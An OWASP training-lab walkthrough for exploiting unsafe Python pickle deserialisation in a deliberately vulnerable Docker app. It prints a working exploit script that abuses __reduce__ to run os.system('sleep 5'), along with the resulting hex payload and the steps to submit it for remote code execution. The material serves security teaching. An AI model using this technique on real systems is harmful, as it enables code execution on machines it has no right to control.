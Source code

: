# Deserialisation Pickle

## Running the app on Docker

```
$ sudo docker pull blabla1337/owasp-skf-lab:des-pickle
```

```
$ sudo docker run -ti -p 127.0.0.1:5000:5000 blabla1337/owasp-skf-lab:des-pickle
```

{% hint style="success" %}
Now that the app is running let's go hacking!
{% endhint %}

## Reconnaissance

Serialisation is used by application to easely store an object and transfer it across systems and networks. If an application needs to store an instance of a class, it can use serialisation to get a string representation of this object. When the application or an other application needs to use the instance again, it will unserialise the string to get back the object.

Obviously, an attacker can tamper with a string that will be deserialised and potentially trigger unexpected behaviour in the application. Depending on the language and library used, this unexpected behaviour can go from arbitrary object creation to remote code execution.

Some use cases for python pickle: 1) saving a program's state data to disk so that it can carry on where it left off when restarted (persistence) 2) sending python data over a TCP connection in a multi-core or distributed system (marshalling) 3) storing python objects in a database 4) converting an arbitrary python object to a string so that it can be used as a dictionary key (e.g. for caching & memorization).

Lets start the application and check how it works.

![](../../.gitbook/assets/python/DES-Pickle/1.png)

The user flow is very simple. The application is expecting a Pickle Serialized object for internal processing and, as expected, the deserialization is done in a unsafe way.

From wikipedia: The pickle module implements binary protocols for serializing and de-serializing a Python object structure. “Pickling” is the process whereby a Python object hierarchy is converted into a byte stream, and “unpickling” is the inverse operation, whereby a byte stream (from a binary file or bytes-like object) is converted back into an object hierarchy

The goal is to achieve Remote Code Execution through this weakness.

## Exploitation

### Step 1

Press F12 on the browser, to open the Developer Toolbar.Click on the Network tab.

![](../../.gitbook/assets/python/DES-Pickle/2.png)

### Step 2

Open the challenge folder, _DES-Pickle_, and open the _exploit.py_ file in a text editor.

```python
import pickle
import os
import base64
import binascii


"""
Pickle is a python package used to 'serialize' an object to string format and store them to or load from a file.
Pickle is a simple stack language, which means pickle has a variable stack.
Every time it finished 'deserializing' an object it stores it on the stack.
Every time it reaches a '.' while 'deserializing', it pop a variable from the stack.
Besides, pickle has a temperary memo, like a clipboard.
'p0', 'p1' means put the top obj on the stack to memo and refer it as '0' or '1'
'g0', 'g1' act as get obj '0' or '1'
"""

class RunBinSh(object):
  def __reduce__(self):
    return (os.system,('sleep 5',))

print(binascii.hexlify(pickle.dumps(RunBinSh())))
```

This code creates a Pickle serialized object of _os.system_ call passing _sleep 5_ as argument. The unserialization of this class should lead the system to sleep for 5 seconds.

Let's run the exploit and see the output:

```bash
python3 exploit.py

b'80049522000000000000008c05706f736978948c0673797374656d9493948c07736c656570203594859452942e'
```

_Note: Running the exploit script on Windows 10 might generate a invalid results. The one generated above can be used._

### Step 3

Copy the output of previous step, paste it on the text field and click on _Submit Button_.

![](../../.gitbook/assets/python/DES-Pickle/3.png)

Check the Network tab and note the _sync_ request takes approximately 5 seconds to respond. It proves that the _sleep 5_ command was executed successfully and the Remote Code Execution was achieved.

![](../../.gitbook/assets/python/DES-Pickle/4.png)

## Additional sources

{% embed url="https://cheatsheetseries.owasp.org/cheatsheets/Deserialization_Cheat_Sheet.html" %}

